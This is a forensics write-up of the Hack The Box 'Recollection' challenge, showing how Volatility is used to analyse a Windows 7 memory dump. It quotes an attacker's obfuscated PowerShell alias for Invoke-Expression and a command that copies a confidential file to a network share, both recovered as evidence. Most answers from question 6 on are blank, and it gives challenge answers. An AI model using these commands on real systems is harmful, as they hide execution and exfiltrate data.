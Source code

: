 # Recollection
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c18c9fa8-036f-4af8-935b-71b53fa33dc9)


## Lessons Learned:
- Using volatility to do RAM forensic.
- Identifying an alias attempt for IEX (Invoke Expression).

## SCENARIO:
A junior member of our security team has been performing research and testing on what we believe to be an old and insecure operating system. 
We believe it may have been compromised & have managed to retrieve a memory dump of the asset. 
We want to confirm what actions were carried out by the attacker and if any other assets in our environment might be affected. 
Please answer the questions below.

## STEPS:
1. In this challenge we're tasked to do a memory forensic from a memory dump to identify what actions carried out by the attacker and checks what assets might be affected.

> 1ST QUESTION --> ANS: Windows 7

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b206c191-cfd4-48c5-9b58-142beae6064e)


2. To do RAM forensic, first we need to identify the correct profile. We can use volatility to identify it using plugin **imageinfo**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7d9386a2-3ae4-4989-aaf7-eea4ec3523a6)


3. The first suggested profile usually is the correct one and judging from the result we can identify that the operating system of the machine is **Windows** and the version is **7**.

> 2ND QUESTION --> ANS: `2022-12-19 16:07:30`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bde732fb-5090-4130-9155-e59af34c4bbf)


4. Few info shown simply by using plugin **imageinfo**. The time when the memory dump created is specify at the **Image data and time** header.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c69a04a6-d6dd-4b6f-98d0-197a52840a6c)



> 3RD QUESTION --> ANS: `(gv '*MDR*').naMe[3,11,2]-joIN''`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d6277fb4-1096-413f-beac-6bbda85d01b4)


5. To identify data saved on the clipboard, in volatility2 we can use **clipboard** plugin.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/319a3198-d582-476c-867d-04708c92bd39)


6. Noticed the first data shown is kinda obfuscated, this could indicate the obfuscated mentioned at the questions.
7. To make sure that this is the copied command, we can use **cmdscan** plugin to check what command executed on the poweshell.exe process.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ce9988ae-f96f-4aa8-a788-8ca1b93837c0)


8. Based from the result above, we can identify that the command is executed both in cmd and powershell. It's valid then, that the copied command is our interest.

> 4TH QUESTION --> ANS: Invoke-Expression

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8dee0847-91b7-41b0-9305-ec976561fd5b)


9. Took me a while to identify the targeted powershell cmdlet. I used **consoles** plugin to check the result of the executed obfuscated command.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e04d8fbe-1294-4ca3-8790-a2f6dfbd4352)


10. Interesting it's resulting to **iex**, searching on the internet about **iex** found that **iex** stands for **Invoke Expressions**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d09b4843-b673-4589-b9cb-c706ca19a6c9)


#### NOTES:

```
What is IEX?
EX stands for "Invoke-Expression" in PowerShell. It's a cmdlet used to run a string as a PowerShell command. This means it allows PowerShell scripts to dynamically execute code stored in a string variable. It's a powerful feature but can also pose security risks if used improperly, as it enables dynamic execution of potentially malicious commands

Attacker tried to set an alias for IEX, this could be an attempt to obfuscate malicious PowerShell commands. By creating an alias for Invoke-Expression, an attacker may make it harder for security tools or analysts to detect and understand the true nature of the executed code
```

11. The article visited shows the obfuscated command that is similiar with what the attacker send.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9925ac30-ea5d-496f-83d1-22056d1085c1)


12. It's clear that the attacker tried to set an alias for **Invoke Expression** cmdlet.

> 5TH QUESTION --> ANS: `type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8685233d-1834-4426-98a0-9cb2afe2ea39)


13. Analyzing the CMD history, we can identify an attempt of the attacker to exfiltrate the content of the **Confidential.txt** to his file named **pass.txt** inside **pulice** directory.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5d0f93a1-208f-4537-93da-2b893a60c555)


> 6TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/da73e2fb-557c-4841-ac27-0ec8df50bb3b)


> 7TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8962f6b2-47b0-43fe-bf87-37389cf8afde)


> 8TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/82aedfbf-4d94-47f0-807f-a5c71fd1f00f)


> 9TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/216d4aa9-c65b-49fa-b982-729707aace9c)


> 10TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a267ab2c-6c2a-48f4-955c-ee4483942076)


> 11TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/17f08389-3aae-44c1-afbc-246b0962e5eb)


> 12TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/806b20de-cdf6-477a-9ed0-aa8441aaa570)


> 13TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b643844b-32b7-41be-ba93-66a07d9e45af)


> 14TH QUESTIOM --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/efa3420a-8ad4-4376-bb99-c1ead9eae52d)


> 15TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ae56ce46-fa25-4c54-bfa4-61c206980d2b)


> 16TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/316f936d-35d7-4643-a960-c626e0f28a6a)


> 17TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9a9c3b94-43a7-44a1-b7f9-5eb8cac0d83d)


> 18TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b8400da6-5b77-4217-98d7-4b90de761802)


## IMPORTANT LINKS

```
https://www.securonix.com/blog/hiding-the-powershell-execution-flow/
```
